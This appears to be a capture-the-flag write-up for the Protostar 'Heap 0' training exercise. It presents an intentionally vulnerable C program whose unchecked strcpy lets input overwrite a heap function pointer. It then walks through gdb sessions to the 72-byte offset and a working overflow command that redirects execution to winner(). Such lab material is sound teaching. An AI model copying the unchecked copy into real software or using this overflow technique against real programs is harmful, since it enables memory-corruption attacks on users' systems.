

# Heap 0

This level introduces heap overflows and how they can influence code flow.

This level is at `/opt/protostar/bin/heap0`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <stdio.h>
#include <sys/types.h>

struct data {
  char name[64];
};

struct fp {
  int (*fp)();
};

void winner()
{
  printf("level passed\n");
}

void nowinner()
{
  printf("level has not been passed\n");
}

int main(int argc, char **argv)
{
  struct data *d;
  struct fp *f;

  d = malloc(sizeof(struct data));
  f = malloc(sizeof(struct fp));
  f->fp = nowinner;

  printf("data is at %p, fp is at %p\n", d, f);

  strcpy(d->name, argv[1]);
  
  f->fp();

}
```

## Solution

- Identify `win()` function address (`08048464`):

```
user@protostar:/opt/protostar/bin$ nm heap0 | grep winner
08048478 T nowinner
08048464 T winner
```

- Get the offset (iterative way), the program crashes when we send **72** `'A'`:

```bash
(gdb) r $(python -c "print('A' * 72)")
Starting program: /opt/protostar/bin/heap0 $(python -c "print('A' * 72)")
data is at 0x804a008, fp is at 0x804a050

Program received signal SIGSEGV, Segmentation fault.
0x08048418 in __do_global_dtors_aux ()
```

- Set a breakpoint at `f->fp()`:

```bash
(gdb) disass main
Dump of assembler code for function main:
0x0804848c <main+0>:	push   %ebp
0x0804848d <main+1>:	mov    %esp,%ebp
0x0804848f <main+3>:	and    $0xfffffff0,%esp
0x08048492 <main+6>:	sub    $0x20,%esp
0x08048495 <main+9>:	movl   $0x40,(%esp)
0x0804849c <main+16>:	call   0x8048388 <malloc@plt>
0x080484a1 <main+21>:	mov    %eax,0x18(%esp)
0x080484a5 <main+25>:	movl   $0x4,(%esp)
0x080484ac <main+32>:	call   0x8048388 <malloc@plt>
0x080484b1 <main+37>:	mov    %eax,0x1c(%esp)
0x080484b5 <main+41>:	mov    $0x8048478,%edx
0x080484ba <main+46>:	mov    0x1c(%esp),%eax
0x080484be <main+50>:	mov    %edx,(%eax)
0x080484c0 <main+52>:	mov    $0x80485f7,%eax
0x080484c5 <main+57>:	mov    0x1c(%esp),%edx
0x080484c9 <main+61>:	mov    %edx,0x8(%esp)
0x080484cd <main+65>:	mov    0x18(%esp),%edx
0x080484d1 <main+69>:	mov    %edx,0x4(%esp)
0x080484d5 <main+73>:	mov    %eax,(%esp)
0x080484d8 <main+76>:	call   0x8048378 <printf@plt>
0x080484dd <main+81>:	mov    0xc(%ebp),%eax
0x080484e0 <main+84>:	add    $0x4,%eax
0x080484e3 <main+87>:	mov    (%eax),%eax
0x080484e5 <main+89>:	mov    %eax,%edx
0x080484e7 <main+91>:	mov    0x18(%esp),%eax
0x080484eb <main+95>:	mov    %edx,0x4(%esp)
0x080484ef <main+99>:	mov    %eax,(%esp)
0x080484f2 <main+102>:	call   0x8048368 <strcpy@plt>
0x080484f7 <main+107>:	mov    0x1c(%esp),%eax
0x080484fb <main+111>:	mov    (%eax),%eax
0x080484fd <main+113>:	call   *%eax
0x080484ff <main+115>:	leave  
0x08048500 <main+116>:	ret    
End of assembler dump.
(gdb) b *0x080484fd
Breakpoint 1 at 0x80484fd: file heap0/heap0.c, line 38.
```

- Run the program and examine the **heap** content: 

```bash
(gdb) r $(python -c "print('A' * 70)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 $(python -c "print('A' * 70)")
data is at 0x804a008, fp is at 0x804a050

Breakpoint 1, 0x080484fd in main (argc=2, argv=0xbffff714) at heap0/heap0.c:38
38	in heap0/heap0.c
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x00004141
0x804a050:	0x08048478	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
(gdb) 

```

`0x804a050` contain the address of `nowinner()` function (`0x08048478`).

- With **72** `'A'`, the address starts to be overwritten:

```bash
(gdb) r $(python -c "print('A' * 72)")
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /opt/protostar/bin/heap0 $(python -c "print('A' * 72)")
data is at 0x804a008, fp is at 0x804a050

Breakpoint 1, 0x080484fd in main (argc=2, argv=0xbffff714) at heap0/heap0.c:38
38	in heap0/heap0.c
(gdb) x/50x 0x804a000
0x804a000:	0x00000000	0x00000049	0x41414141	0x41414141
0x804a010:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a030:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a040:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a050:	0x08048400	0x00000000	0x00000000	0x00020fa9
0x804a060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a0c0:	0x00000000	0x00000000
(gdb)
```

So we need to print 72 * `'A'` + address oof `win()` function (in little endian):




```console
user@protostar:/opt/protostar/bin$ ./heap0 $(python -c "print('A' * 72 + '\x64\x84\x04\x08')")
data is at 0x804a008, fp is at 0x804a050
level passed
```